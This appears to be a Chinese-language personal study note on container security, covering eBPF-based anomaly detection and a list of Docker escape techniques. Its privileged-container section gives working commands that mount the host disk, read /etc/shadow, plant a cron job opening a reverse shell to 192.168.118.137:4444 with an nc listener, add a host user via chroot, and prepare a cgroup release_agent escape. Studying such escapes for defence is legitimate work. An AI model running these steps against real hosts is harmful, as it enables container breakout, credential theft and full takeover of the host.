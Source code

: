 ## 主机和容器异常活动的检测

确保容器运行时安全的关键点：

❏ 降低容器的攻击面，每个容器以最小权限运行，包括容器挂载的文件系统、网络控制、运行命令等。

❏ 确保每个用户对不同的容器拥有合适的权限。

❏ 使用安全容器控制容器之间的访问。当前，Linux的Docker容器技术隔离技术采用Namespace 和 Cgroups 无法阻止提权攻击或打破沙箱的攻击。

---

❏ 使用ebpf跟踪技术自动生成容器访问控制权限。包括：容器对文件的可疑访问，容器对系统的可疑调用，容器之间的可疑互访，检测容器的异常进程，对可疑行为进行取证。例如：

    ❏ 检测容器运行时是否创建其他进程。

    ❏ 检测容器运行时是否存在文件系统读取和写入的异常行为，例如在运行的容器中安装了新软件包或者更新配置。

    ❏ 检测容器运行时是否打开了新的监听端口或者建立意外连接的异常网络活动。

    ❏ 检测容器中用户操作及可疑的shell脚本的执行。

## 容器逃逸

容器逃逸主要分为以下三个部分：

##### 配置不当引起的逃逸 - 主要为

* Docker Remote API 未授权访问
* docker.sock 挂载到容器内部
* docker 高危启动参数
  * privileged 特权模式
  * 挂载敏感目录
  * 相关启动参数存在的安全问题

##### Docker 软件设计引起的逃逸

* Shocker攻击
* runC容器逃逸漏洞(CVE-2019-5736)
* Docker cp 命令(CVE-2019-14271)

##### 内核漏洞引起的逃逸

* 脏牛漏洞（dirtycow-docker-vdso）


##### Docker 容器逃逸典型案例

1、判断是否处于docker容器里

2、配置不当引起的逃逸

* Docker Remote API 未授权访问
* docker.sock 挂载到容器内部
* docker 高危启动参数
  * privileged 特权模式
  * 挂载敏感目录
  * 相关启动参数存在的安全问题

3、Docker 软件设计引起的逃逸

* Shocker攻击
* runC容器逃逸漏洞(CVE-2019-5736)
* Docker cp 命令(CVE-2019-14271)

4、内核漏洞引起的逃逸

* 脏牛漏洞（dirtycow-docker-vdso）


#### 特权容器逃逸

##### 挂载/etc逃逸 - 基于crontab（定时任务机制） 等

crontab：定时任务的守护进程，精确到分，设计秒的我们一般写脚本  -->相当于闹钟
        日志文件:  ll /var/log/cron*
        编辑文件： vim /etc/crontab
        作用：定时备份，实时备份

Linux下的任务调度分为两类，系统任务调度和用户任务调度。
    系统任务调度：系统周期性所要执行的工作，比如写缓存数据到硬盘、日志清理等。
        在/etc/crontab文件，这个就是系统任务调度的配置文件。
    用户任务调度：用户定期要执行的工作，比如用户数据备份、定时邮件提醒等。
        用户可以使用 crontab 工具来定制自己的计划任务。
        在crontab 文件都被保存在/var/spool/cron目录中。其文件名与用户名一致

##### 逃逸具体步骤：

```
sudo docker run -it --privileged ubuntu:20.04 

# 1查看特权级
cat /proc/self/status | grep CapEff

# 查看挂载设备 /dev/sda* Type为Linux
fdisk -l

# 2将宿主机整个文件系统挂载到当前容器的目录下
mkdir /test && mount /dev/sda1 /test

# 3尝试查看shadow文件，确保权限足够
cat /test/etc/shadow

# 4修改 /etc/crontab   执行反弹shell
echo -e '\nSHELL=/bin/bash \nPATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin \nMAILTO=root \n01 * * * * root  cd / && run-parts /etc/cron.hourly \n*/1 *  * * * root  bash -i >& /dev/tcp/192.168.118.137/4444 0>&1' >> /test/etc/crontab 

# 4在远程监听对应端口
nc -lvnp 4444
```

修改 /etc/crontab,添加如下内容(相应IP和端口)

```
SHELL=/bin/bash
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin
MAILTO=root

01 * * * * root  cd / && run-parts /etc/cron.hourly
*/1 *  * * * root  bash -i >& /dev/tcp/192.168.118.137/4444 0>&1
```

##### 一些其他形式的特权容器逃逸手段

###### 通过添加新用户

```bash
# 通过添加新用户
mount /dev/sda1 /mnt
chroot /mnt adduser xxxxxx
```

###### 挂载/root逃逸

挂载/root/.ssh目录到容器内，可以通过此方式逃逸。

* 生成本机的ssh私钥和公钥，命令：ssh-keygen -t rsa
* 把本机的公钥复制到容器内的/root/.ssh/authorized_keys里，可以实现宿主机的免密登陆

###### 挂载cgroup逃逸

特权模式下在容器里执行命令,将cgroup直接以 cgroup类型挂载到容器内，挂载选项为 rdma（远程直接内存访问）并在容器内创建一个子cgroup目录（cgroup_2）,目的是为了创建release_agent文件且触发release_agent执行的cgroup。

```
mkdir /tmp/cgroup
mount -t cgroup -o rdma cgroup /tmp/cgroup 
mkdir /tmp/cgroup/cgroup_2
```

###### 挂载docker.sock实现逃逸

###### 挂载/proc目录实现逃逸

`/proc/sys/kernel/core_pattern `文件是负责进程奔溃时内存数据转储的， **当第一个字符是管道符 `|`时，后面的部分会以命令行的方式进行解析并运行** 。

利用该解析方式，我们可以进行容器逃逸

参考链接：[五种方式教你用特权容器逃逸 | CN-SEC 中文网](https://cn-sec.com/archives/544048.html)

##### 特权容器逃逸总结

特权容器逃逸，最常见的就是通过挂载高危目录到容器中，以达到影响宿主机的目的。

![](image/docker/1653281635457.png)

同时也可以很容易想到，就算容器不是特权容器，但如果其挂载了高危目录然后启动(-v)，这也会直接影响到宿主机的安全。

常见的高危目录 ：

```
/var/run/docker.sock
/root
/sys/fs/cgroup 应该是直接基于cgroup的 
/dev/
procfs  
......
```

### 容器里的 insmod.o

自己编译好丢进去 or

挂载linux文件系统之后弄(x)

```
# 行不通 x
apt update
apt-get update
apt-get install module-init-tools
```

## TODO  监测容器行为相关

+ 检测容器运行时是否创建其他进程。
+ 检测容器运行时是否存在文件系统读取和写入的异常行为，例如在运行的容器中安装了新软件包或者更新配置。
+ 检测容器运行时是否打开了新的监听端口或者建立意外连接的异常网络活动。
+ 检测容器中用户操作及可疑的shell脚本的执行。  √

先使用BPFtrace做验证

```
export 
```
